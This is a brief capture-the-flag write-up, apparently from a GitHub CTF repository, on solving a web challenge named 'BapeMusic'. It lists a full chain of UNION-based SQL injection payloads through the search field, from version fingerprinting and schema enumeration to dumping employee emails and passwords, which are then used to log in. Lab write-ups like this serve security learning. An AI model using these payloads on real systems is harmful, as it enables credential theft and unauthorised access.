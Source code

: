 # Challenges:

Log into BapeMusic to get the something...

FLAG Format: EHC{XXX}

# Solution:

They give me a nice looking website with 3 function Search, Sign up, Log in.

After sign up they told the sign up function not avalible, the Log in can't exploit anything because they filter all the symbol for sql injection. We only have last option is the search. I enter some "Entry point dection" symbol and found something at `"`:

![image](https://github.com/Katsumi1012/CTF/assets/90083485/6b72b69c-4671-4912-9899-4bc003ed43d1)

MariaDB is very usefull and try a round with basic query and when trying this query `" UNION SELECT @@version; -- -`, i got:

![image](https://github.com/Katsumi1012/CTF/assets/90083485/dc6a86eb-6b0d-46c9-bc43-6ffd67628c58)

Now, i know what i'm going to to. First check the number of columns and an error at column 5 so it has 4 columns `" ORDER BY 5; -- -`

![image](https://github.com/Katsumi1012/CTF/assets/90083485/a00e51f2-c92e-43a0-94a6-872b6e9c06f4)

Get database name: `" UNION SELECT @@version,database(),3,4; -- -`

![image](https://github.com/Katsumi1012/CTF/assets/90083485/d82360c5-807a-4c56-b913-ad788c4a23fa)

Discover the `sqlinjection` database: `" UNION select TABLE_NAME,TABLE_SCHEMA,3,4 from INFORMATION_SCHEMA.TABLES where table_schema='sqlinjection'-- -`

![image](https://github.com/Katsumi1012/CTF/assets/90083485/e3be976e-324c-481a-87d9-4bf6c8b94625)

Discorver the `employee` table: `" UNION select COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.COLUMNS where table_name='employee'-- -` and we saw some interesting column:

![image](https://github.com/Katsumi1012/CTF/assets/90083485/327a816c-9690-44aa-85b0-0ac22b6adc54)

Get in there to see data: `" UNION select Email, Password,3,4 from employee -- -`

![image](https://github.com/Katsumi1012/CTF/assets/90083485/a272a556-e2b5-4cce-94b7-284c5b40a1ca)

Siuuuuu. We got the username and password. Now try to login

![1st](https://github.com/Katsumi1012/CTF/assets/90083485/4348cbd7-a9de-4a4d-9891-0df313740a2d)

Get the flag 🚩

# Enjoy 🤡
